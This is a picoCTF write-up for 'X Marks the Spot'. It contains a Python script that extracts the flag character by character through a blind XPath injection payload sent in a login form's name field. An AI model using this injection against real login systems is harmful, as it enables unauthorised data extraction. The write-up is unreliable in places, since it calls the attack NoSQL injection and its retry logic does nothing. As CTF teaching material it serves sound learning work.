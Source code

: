 ## X Marks the Spot
The following python code uses a blind nosql injection to brute force the website. Essentially we can send the server a part of the flag and it will respond with "yes" or "no".  We can use this to brute force the flag. So the script below send every possible charcter until we get a character right, then it appends a new one to try it again for the next character. This process repeats until the flag is complete.

For example:

	Request: "picoCTF{a"
	Response: "no"

	Request: "picoCTF{b"
	Response: "no"

	Request: "picoCTF{c"
	Response: "yes"

	Request: "picoCTF{ca"
	Response: "no"

	Request: "picoCTF{cb"
	Response: "yes"

If you would like to read on the topic, here are some resources:
[https://owasp.org/www-community/attacks/Blind_XPath_Injection](https://owasp.org/www-community/attacks/Blind_XPath_Injection "https://owasp.org/www-community/attacks/Blind_XPath_Injection")  [https://book.hacktricks.xyz/pentesting-web/xpath-injection](https://book.hacktricks.xyz/pentesting-web/xpath-injection "https://book.hacktricks.xyz/pentesting-web/xpath-injection")

  ```python
 import requests
 
alphabet =  "_abcdefghijklmnopqrstuvwxyz1234567890()ABCDEFGHIJKLMNOPQRSTUVXWYZ{}"
flag =  "picoCTF{"
url =  "http://mercury.picoctf.net:28065/"

req = requests.Session()

while flag[-1]  !=  '}':
	for i in  range(len(alphabet)):
		try:
			res = req.post(url,  data={"name":"bob' and //*[contains(text(),'"+flag+alphabet[i]+"')] or ''='","pass":"admin"},  timeout=1)

			if  ("Login failure"  not  in res.text):
				flag += alphabet[i]
				print("[+] Flag: "  + flag)
				break

		except:

			i-=1 
